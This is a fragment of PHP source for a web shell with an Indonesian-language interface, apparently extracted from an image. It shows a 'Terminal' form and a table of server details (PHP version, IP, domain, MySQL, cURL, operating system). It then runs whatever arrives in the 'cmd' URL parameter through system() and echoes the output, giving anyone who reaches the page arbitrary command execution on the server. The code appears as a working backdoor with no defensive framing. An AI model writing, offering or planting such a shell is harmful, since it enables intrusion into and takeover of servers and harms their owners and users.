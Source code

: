             </div></center>
 
            <div class='row'>
                <div class='col-lg-4'><br />
                    <h5><i class='fa fa-terminal'></i>Terminal : </h5>
                    <form>
                        <input type='text' class='form-control' name='cmd'>
                    </form>
                    <hr style='backgroud: white'/>
                    <h5><i class='fa fa-search'></i> Informasi : </h5>
                    <div class='card table-responsive'>
                        <div class='card-body' style='color: #333'>
                            <table class='table' style='color: #333'>
                                <tr>
                                    <td>PHP Version</td>
                                    <td> : $ver</td>
                                </tr>
                                <tr>
                                    <td>IP Server</td>
                                    <td> : $ip</td>
                                </tr>
                                <tr>
                                    <td>Domain Web</td>
                                    <td> : $dom</td>
                                </tr>
                                <tr>
                                    <td>MySQL</td>
                                    <td>: $mysql</td>
                                </tr>
                                <tr>
                                    <td>CURL</td>
                                    <td>: $curl</td>
                                </tr>
                                <tr>
                                    <td>Sistem Operasi</td>
                                    <td> : $os</td>
                                </tr>
                            </table>
                        </div>
                    </div><br/>
                </div>
            </div>
        </div>
    </body>
</html>
<div class='col-lg-8'>";
   
    if(isset($_GET['cmd'])){
        echo "<div class='card'><div class='container'><font color='black'>";
        echo "<pre>";
        echo system($_GET['cmd']);
        echo "</pre>";
        echo "</font></div></div>";
    }
   